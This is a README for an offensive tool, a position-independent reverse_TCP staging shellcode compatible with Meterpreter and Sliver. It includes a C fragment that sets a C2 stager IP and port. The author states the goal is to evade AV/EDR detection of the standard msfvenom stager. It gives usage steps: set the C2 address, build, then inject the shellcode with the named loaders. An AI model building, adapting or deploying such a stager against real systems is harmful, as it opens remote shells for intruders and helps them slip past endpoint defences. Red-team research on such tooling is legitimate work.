 # CelestialSpark

An modern 64-bit position independent meterpreter and Sliver compatible reverse_TCP Staging Shellcode based on Cracked5piders Stardust

```c
#include <Common.h>
#include <Constexpr.h>
#pragma comment(lib, "ws2_32.lib")

LPWSTR* arglist;
// Define IP Adress of your C2 Stager (!)
#define IP_STR  "10.10.10.10"
// Define PORT 443 of your TCP Stager
#define PORT 443
...
```

## Why
I wanted to improve my understanding of position independent Shellcode, plus... My Meterpreter reverse_TCP Stager gets caught by a lot of AV/EDRs and I was hoping to somehow get around the IoCs the 15 year old Meterpreter reverse_TCP Shellcode generated by msfvenom.
Inspirations were:
- https://github.com/SherifEldeeb/TinyMet
- https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_reverse_tcp.asm

## How does it work
- not existing HTONS and HTONL functions have been hardcoded
- custom inet_addr function was rewritten and implemented in Main.C
- Socket creation and interaction functions have been imported from ws2_32.dll
- Meterpreter Staging Logic hase been copied from the original project and TinyMet

## Usage
- Git clone
- change IP and Port in Main.c
- disable the messagebox right before the Stage2 shellcode execution (if it bothers you)
- make
- Use your favourite Shellcode Loader/Injector. I Successfully tested:
    - https://github.com/Cipher7/ChaiLdr
    - https://github.com/florylsk/ExecIT
    - https://github.com/3xpl01tc0d3r/ProcessInjection
    - the original Stardust Loader written by [Cracked5pider](https://github.com/Cracked5pider)

